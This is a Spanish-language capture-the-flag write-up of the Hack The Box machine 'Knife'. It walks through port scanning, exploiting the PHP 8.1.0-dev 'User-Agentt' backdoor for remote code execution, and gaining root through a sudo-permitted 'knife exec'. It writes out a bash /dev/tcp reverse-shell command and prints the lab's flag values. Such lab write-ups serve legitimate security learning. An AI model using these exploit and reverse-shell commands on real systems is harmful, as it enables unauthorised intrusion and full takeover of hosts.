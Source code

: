 
# Knife (Linux) ![](https://github.com/Tnr1112/HTB-Writeups/blob/main/Machines-Maquinas/common-images/linux.jpg "Linux")  - Español
![](https://github.com/Tnr1112/HTB-Writeups/blob/main/Machines-Maquinas/Easy-Facil/Knife/images/logo.jpg "Knife")
Creador de la máquina: **MrKN16H7**
### Writeup por Tnr1112

## Enumeración
### Empezamos escaneando todos los puertos abiertos

    nmap -p- -sS --min-rate 5000 --open -vvv -n 10.10.10.242 -oG allPorts
Lo exporto en modo grepeable para después poder utilizar una función que me extrae los puertos

|PORT|STATE|SERVICE| 
|--|--|--|
|22/tcp|open|ssh|
|80/tcp|open|http|

### Buscamos los servicios que corren los puertos abiertos

```
nmap -sC -sV -p22,80 10.10.10.242 -oN targeted
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Escaneamos buscando alguna vulnerabilidad

    nmap -p22,80 --script=”vuln and safe” 10.10.10.242 -oN vulnSafeScan
Pero no hay suerte :(

### Web
Esta es la web. En el código no hay nada sospechoso.
![](https://github.com/Tnr1112/HTB-Writeups/blob/main/Machines-Maquinas/Easy-Facil/Knife/images/website.jpg "Website")

### Fuzzing
Utilizamos `gobuster` para enumerar algún directorio, pero no hay suerte.
```
gobuster dir -u http://10.10.10.242 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.242
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2021/09/15 13:39:56 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 5815]
Progress: 27126 / 441122 (0.08%)                 ^C
[!] Keyboard interrupt detected, terminating.
                                                
===============================================================
2021/09/15 13:40:03 Finished
===============================================================
```
### Whatweb
Utilizamos el whatweb para ver qué información obtenemos

```
whatweb 10.10.10.242
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

## Exploit PHP 8.1.0-dev User-Agentt
Podemos ver que utiliza **PHP 8.1.0-dev**
Existe una vulnerabilidad que al agregar como Header un **“User-Agentt”** podemos ejecutar código de forma arbitraria.
Yo voy a utilizar el siguiente script: [PHP-8.1.0-dev_WebShell-RCE-Github](https://github.com/ColdFusionX/PHP-8.1.0-dev_WebShell-RCE)

Ejecutamos el .py con el parámetro `-l` le indicamos el host y podremos ejecutar los comandos que queramos

    python3 php8-1RCE2.py -l http://10.10.10.242

Una vez adentro, con `whoami` podemos saber a que usuario pertenece la sesión en la que estamos.
Obtenemos la flag de user en el directorio del usuario james.
```
[+] PHP 8.1.0-dev WebShell RCE by ColdFusionX 
Target is running on PHP 8.1.0-dev
*Shoot your commands below* 

[^] WebShell=- whoami
james

[^] WebShell=- cat /home/james/user.txt
5615f62140ac79f46e2fdb9a04ac9ed0
```
Ahora con sudo -l verificamos los comandos disponibles que se pueden ejecutar con sudo.
```
[^] WebShell=- sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Efectivamente, podemos ejecutar el comando `knife`

> knife es una herramienta de línea de comando que provee una interfaz entre un repositorio de chef local y el Chef Infra Server. 

[Documentación knife](https://docs.chef.io/workstation/knife/)

## Escalada de privilegios

Con el comando `exec` podemos ejecutar código hecho en **ruby**. Por lo que podremos ejecutar cualquier comando que queramos con privilegios.
[Documentación knife exec](https://docs.chef.io/workstation/knife_exec/)
```
[^] WebShell=- sudo knife exec -E 'puts `cat /root/root.txt`'
73e63ad29b6339faea23f15406f2b1a0
```
Para obtener control total podremos abrir una reverse shell.
Nos ponemos a escuchar en el puerto 4444
```
nc -nlvp 4444
listening on [any] 4444 ...
```

En el server ejecutamos:

    [^] WebShell=- /bin/bash -c 'bash -i >&/dev/tcp/Nuestra IP/Nuestro puerto 0>&1'

Para escalar privilegios, abriremos una bash desde knife con `sudo knife exec -E 'exec "/bin/bash -i"'`
```
listening on [any] 4444 ...
connect to [10.10.14.189] from (UNKNOWN) [10.10.10.242] 48064
bash: cannot set terminal process group (1018): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ sudo knife exec -E 'exec "/bin/bash -i"'  
sudo knife exec -E 'exec "/bin/bash -i"'
bash: cannot set terminal process group (1018): Inappropriate ioctl for device
bash: no job control in this shell
root@knife:/# whoami
whoami
root
```
Y listo, obtendremos una shell con **root** :)